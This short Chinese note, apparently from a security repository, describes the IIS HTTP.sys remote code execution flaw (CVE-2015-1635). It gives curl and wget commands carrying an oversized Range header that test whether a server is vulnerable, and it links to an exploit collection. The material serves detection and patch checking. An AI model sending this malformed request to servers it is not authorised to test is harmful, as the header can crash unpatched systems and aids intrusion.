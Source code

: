 >影响版本：
>安装了微软
>IIS 6.0以上的
>Windows Server 2008 R2/Server 2012/Server 2012 R2和Windows 7/8/8.1都受到这个漏洞的影响。

>漏洞描述：
>IIS远程代码执行漏洞存在于HTTP协议堆栈（HTTP.sys）中，
>当HTTP.sys不正确地解析HTTP请求时会导致此漏洞。

漏洞验证:
执行：
**curl url -H “Host:ip” -H “Range:bytes=0-18446744073709551615”**

**wget http://www.host.com --header="Range: bytes=0-18446744073709551615"**

- 若IIS服务器返回“requested range not satisfiable”，则是存在漏洞；
- 如果返回“the request has an invalid header name”，则说明漏洞已被修补。

参考链接：

https://github.com/helloexp/0day/tree/master/00-CVE_EXP/CVE-2015-1635

https://www.cnblogs.com/8ling/p/12823547.html

https://blog.csdn.net/qq_33608000/article/details/112798458
